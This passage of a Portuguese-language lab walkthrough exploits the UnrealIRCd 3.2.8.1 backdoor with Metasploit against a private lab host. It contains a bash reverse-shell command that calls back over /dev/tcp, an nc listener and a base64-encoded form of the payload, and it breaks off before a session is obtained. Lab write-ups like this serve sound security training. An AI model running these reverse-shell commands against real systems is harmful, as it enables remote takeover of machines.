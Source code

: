 ```bash


Payload options (cmd/unix/generic):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   CMD                    yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.


msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) >
```

Temos de setar CMD.

```bash
sf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set CMD "bash -i >& /dev/tcp/192.168.56.1/4444 0>&1"
CMD => bash -i >& /dev/tcp/192.168.56.1/4444 0>&1
```

Antes de executar o exploit, preciso colocar o nc escutando a porta 4444 para receber o shell:

```bash
──(kali㉿kali)-[~]
└─$ nc -lnvp 4444             
listening on [any] 4444 ...
```

Agora, podemos tentar o exploit:

```bash
al_ircd_3281_backdoor) > exploit
[*] 192.168.56.13:6667 - Connected to 192.168.56.13:6667...
    :irc.foonet.com NOTICE AUTH :*** Looking up your hostname...
[*] 192.168.56.13:6667 - Sending backdoor command...
        [*] Exploit completed, but no session was created.

```

Parece que não foi. Isso acontece pq o metasploit pode quebrar o parsing com caracteres especiais e, por isso, o comando não foi correto para lá. É mais seguro encodar em base64 para enviar.

Primeiro, vamos gerar o base64 do comando:

```bash
┌──(kali㉿kali)-[~]
└─$ echo 'bash -i >& /dev/tcp/192.168.56.1/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEvNDQ0NCAwPiYxCg==
```
